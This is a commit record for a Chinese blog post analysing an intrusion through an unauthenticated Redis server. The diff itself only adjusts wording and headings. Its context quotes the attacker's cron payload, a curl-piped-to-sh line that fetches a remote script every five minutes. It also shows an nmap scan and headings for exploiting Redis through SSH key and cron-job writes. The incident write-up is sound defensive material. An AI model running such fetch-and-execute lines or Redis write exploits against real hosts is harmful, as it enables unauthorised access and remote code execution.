

Before and after one commit to legolasNg/legolasNg.github.io, a Jekyll site: the page built from _posts/2017-03-03-redis-security-matters.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
[modify] modify some sentence

`````diff
--- a/_posts/2017-03-03-redis-security-matters.md
+++ b/_posts/2017-03-03-redis-security-matters.md
@@ -4,12 +4,12 @@ title:      "Redis安全问题分析"
 date:       2017-03-03 16:48:00 +0800
 category:   "redis"
 tags:       ["security", "redis"]
-excerpt:    "最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来背后仍然冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为："
+excerpt:    "最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为："
 ---
 
 ## redis被侵入
 
-最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来背后仍然冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为：
+最近由于特殊原因，服务器在公网上开放了redis端口(没有鉴权)和mysql端口，期间胆战心惊的。不过该来的迟早要来，还是被别有用心的人盯上了，现在想来仍心有余悸，背后直冒冷汗。开放在公网没多久，同事就反映redis里面有异常数据，0号db里面数据都被清除了，只剩下个`crackit`键，键值为：
 
 ````
 \n\n*/5 * * * * /usr/bin/curl -fsSL http://sx.doiton.tk/test.sh | sh\n\n
@@ -102,7 +102,7 @@ $ nmap --script=[path] 192.168.2.22 -p 6379
 
 扫描到可利用的端口后，我们就可以进行下一步操作了。我们可以进行比较常见的操作：添加计划任务执行特定操作，或者将ssh公钥添加到主机方便以后利用。
 
-### 添加ssh公钥
+### 利用1：添加ssh公钥
 
 在主机redis中添加一个`crackit`的键值对
 
@@ -127,7 +127,7 @@ $ redis-cli -h 192.168.2.22
 
 公钥写入成功之后，我们便可以使用之前生成的私钥来访问对应的主机，后面的操作自己脑补。
 
-### 添加计划任务
+### 利用2：添加计划任务
 
 在主机redis中添加一个`crackit`的键值对
 
`````
